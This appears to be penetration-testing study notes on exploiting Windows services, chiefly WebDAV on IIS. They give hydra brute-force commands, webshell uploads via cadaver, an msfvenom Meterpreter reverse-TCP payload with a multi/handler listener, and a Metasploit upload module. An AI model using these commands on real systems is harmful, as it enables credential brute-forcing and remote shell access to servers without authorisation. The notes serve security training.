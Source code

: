 Windows is also vulnerable to cross platform vulnerabilities like SQLi

## Exploiting Windows Services

| Microsoft **IIS** (Internet Information Services) | 80/443/TCP | Windows web server by Microsoft (proprietary) |
| --- | --- | --- |
| WebDAV (Web-based Distributed Authoring & Versioning) | 80/443/TCP | HTTP Extension which allows a web server to act as a file server (deleting, uploading, copying files) |
| SMB (Server Message Block) | 445/TCP | Network resource sharing protocol (files, peripherals, etc) |
| RDP (Remote Desktop Protocol) | 3389/TCP | GUI tool for remotely interacting with a Windows host by Microsoft (proprietary) |
| WinRM (Windows Remote Management Protocol) | 5985/5986/TCP | CLI tool for remote accessing to Windows host (for automating, scripting) |

### Exploiting WebDAV on top IIS

**Microsoft IIS** is a web server that was developed by Microsoft, it is used for hosting websites/web apps. It provides us with robust a GUI for managing websites developed in ASP.NET and PHP

Extensions: .asp | .aspx | .config | .php  

**WebDAV** is an HTTP extension that allows users to collabrotively edit and manage files. It runs on top IIS.

For connecting to a WebDAV server, we must provide credentials (username & password) HTTP-GET

### Exploiting WebDAV:

- Performing brute-force attack for credentials
- After getting access, we upload malicious .asp payload. ( we find the types of payloads with `davtest`)
- NMAP Script:
    - `—script=http-enum` for finding the **directory** of WebDAV
- Brute-force with **hydra**:
    - `hydra -L <users.txt> -P <passwords.txt> <ip> http-get /webdav/` or `hydra -L <users.txt> -P <passwords.txt> http-get://<ip> /webdav/`

### Tools:

- **`davtest` -** says that which types of files can be executed
    - `davtest -auth <user>:<password> -url <url>/webdav/` - creates one directory and different test files, then uploads and executes them to the /webdav/ for checking which extensions (.php | .txt | etc) can be executed
- **`cadaver` -** used for uploading files to /webdav/
    - `cadaver <url>/webdav/` - then we enter username & password
        - `put /usr/share/webshells/asp/webshell.asp` - uploading an .asp shell (provides us with a shell **bar**)
        - `delete webshell.asp` - we can delete after completing

- **with** `msfconsole` and `msfvenom` (Metasploit)
    - .asp payload - **`msfvenom** -p windows/meterpreter/reverse_tcp LHOST=<local ip> LPORT=1234 -f asp > shell.asp`
        - `cadaver <url>/webdav/`
            - `put /root/shell.asp`
                - `service postgresql start && msfconsole -q` - database for a listener of metasploit
                    - `use multi/handler` - listener for our payload (like `nc -nlvp`)
                        - `set payload windows/meterpreter/reverse_tcp` (multi/handler must know that with which payload he is dealing)
                            - `set LHOST <local ip>` and `set LPORT 1234` (payload options - they must be the **same** as they were in **`msfvenom`**)
                            - then we click our shell.asp in <url>/webdav/ in a browser - for making our handler work
                                - our payload **works**, we can check it with`sysinfo`, `getuid` - after meterpreter session success
- we can `use exploit/windows/iis/iis_webdav_upload_asp` in Metasploit
    - setting RHOSTS, HttpUsername, HttpPassword
    - `set PATH /webdav/metasploit.asp`